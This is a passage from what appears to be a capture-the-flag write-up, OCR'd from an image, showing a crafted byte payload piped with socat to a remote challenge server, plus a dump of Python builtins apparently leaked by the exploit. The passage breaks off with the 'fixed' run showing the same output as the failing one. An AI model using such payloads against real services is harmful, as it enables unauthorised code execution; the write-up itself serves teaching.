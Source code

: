 ```
    for supporting Python development.  See www.python.org for more information., 'delattr': <built-in function delattr>, 'dict': <class 'dict'>, 'dir': <built-in function dir>, 'divmod': <built-in function divmod>, 'enumerate': <class 'enumerate'>, 'eval': <built-in function eval>, 'exec': <built-in function exec>, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'filter': <class 'filter'>, 'float': <class 'float'>, 'format': <built-in function format>, 'frozenset': <class 'frozenset'>, 'getattr': <built-in function getattr>, 'globals': <built-in function globals>, 'hasattr': <built-in function hasattr>, 'hash': <built-in function hash>, 'help': Type help() for interactive help, or help(object) for help about object., 'hex': <built-in function hex>, 'id': <built-in function id>, 'input': <built-in function input>, 'int': <class 'int'>, 'isinstance': <built-in function isinstance>, 'issubclass': <built-in function issubclass>, 'iter': <built-in function iter>, 'len': <built-in function len>, 'license': Type license() to see the full license text, 'list': <class 'list'>, 'locals': <built-in function locals>, 'map': <class 'map'>, 'max': <built-in function max>, 'memoryview': <class 'memoryview'>, 'min': <built-in function min>, 'next': <built-in function next>, 'object': <class 'object'>, 'oct': <built-in function oct>, 'open': <built-in function open>, 'ord': <built-in function ord>, 'pow': <built-in function pow>, 'print': <built-in function print>, 'property': <class 'property'>, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'range': <class 'range'>, 'repr': <built-in function repr>, 'reversed': <class 'reversed'>, 'round': <built-in function round>, 'set': <class 'set'>, 'setattr': <built-in function setattr>, 'slice': <class 'slice'>, 'sorted': <built-in function sorted>, 'staticmethod': <class 'staticmethod'>, 'str': <class 'str'>, 'sum': <built-in function sum>, 'super': <class 'super'>, 'tuple': <class 'tuple'>, 'type': <class 'type'>, 'vars': <built-in function vars>, 'zip': <class 'zip'>}!
It's nice to meet you!
```

As we can see, this works locally. However, when we try this on the remote instance:

```
$ python -c "import sys;sys.stdout.buffer.write(b'QRSRARFGENGRLBHEFRYSLBHJRROERRRRt\x02\x83\x00')" | socat - TCP4:95.216.233.106:42903

Hello!
What's your name?
```

No response. What happened? Since the remote instance is running over a socket, we need to append a newline character so that the input is terminated. This newline character is stripped on the remote instance before execution, but not locally, so when testing locally, we need to remove the trailing newline.
Alternatively, we can just edit our local copy of the challenge so it strips trailing whitespace.

However, the simplest solution is just to stop testing locally.

Here's what happens when we run the payload with a newline:
```
$ python -c "import sys;sys.stdout.buffer.write(b'QRSRARFGENGRLBHEFRYSLBHJRROERRRRt\x02\x83\x00\n')" | socat - TCP4:95.216.233.106:42903

Hello!
What's your name?
```